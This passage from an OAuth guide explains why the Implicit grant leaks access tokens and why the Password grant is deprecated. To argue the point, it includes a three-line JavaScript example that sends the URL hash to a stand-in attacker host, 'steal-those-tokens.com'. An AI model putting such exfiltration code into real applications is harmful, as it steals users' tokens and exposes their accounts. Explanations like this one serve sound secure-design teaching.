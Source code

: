 This HTML page includes 2 JavaScript libraries:

* The code for the application itself: `my-spa-code-1.0.0.js`
* A library we found online that did something cool we needed and we pulled in: `a-library-found-online-that-looked-cool-0.42.0.js`

Let's assume that our code is 100% secure and we don't have to worry about it. The issue here is that the library we pulled in is an unknown quantity. It might include other libraries as well. Remember that the DOM is dynamic. Any JavaScript can load any other JavaScript library simply by updating the DOM with more `<script>` tags. Therefore, we have very little chance of ensuring that every other line of code from third-party libraries is secure.

If a third-party library wanted to steal an access token from our dummy application, all it would need to do is run this code:

```javascript
if (window.location.hash.contains('access_token')) {
  fetch('http://steal-those-tokens.com/yummy?hash=' + window.location.hash);
}
```

Three lines of code and the access token has been stolen. The application at `http://steal-those-tokens.com/yummy` can save these off, call the `login.twgtl.com` to verify the tokens are useful, and then can call APIs and other resources presenting the `access_token`. Oops.

As you can see, the risk of leaking tokens is far too high to ever consider using the Implicit grant. This is why we recommend that no one ever use this grant.

If you aren't dissuaded by the above example and you really need to use the Implicit grant, please [check out our documentation](/docs/v1/tech/oauth/#example-implicit-grant), which walks you through how to implement it.

### Resource Owner's Password Credentials grant

The next grant on our list is the Resource Owner's Password Credentials grant. That's a lot of typing, so I'm going to refer to this as the Password grant for this section.

This grant is also being deprecated and the current recommendation is that it should not be used. Let's discuss how this grant works and why it is being deprecated.

The Password grant allows an application to collect the username and password directly from the user via a native form and send this information to the OAuth server. The OAuth server verifies this information and then returns an access token and optionally a refresh token.

Many mobile applications and legacy web applications use this grant because they want to present the user with a login UI that feels native to their application. In most cases, mobile applications don't want to open a web browser to log users in and web applications want to keep the user in their UI rather than redirecting the browser to the OAuth server.

There are two main issues with this approach:

1. The application is collecting the username and **password** and sending it to the OAuth server. This means that the application must ensure that the username and password are kept completely secure. This differs from the Authorization Code grant where the username and password are only provided directly to the OAuth server.
1. This grant does not support any of the auxiliary security features that your OAuth server may provide such as:
 * Multi-factor authentication
 * Password resets
 * Device grants
 * Registration
 * Email and account verification
 * Passwordless login

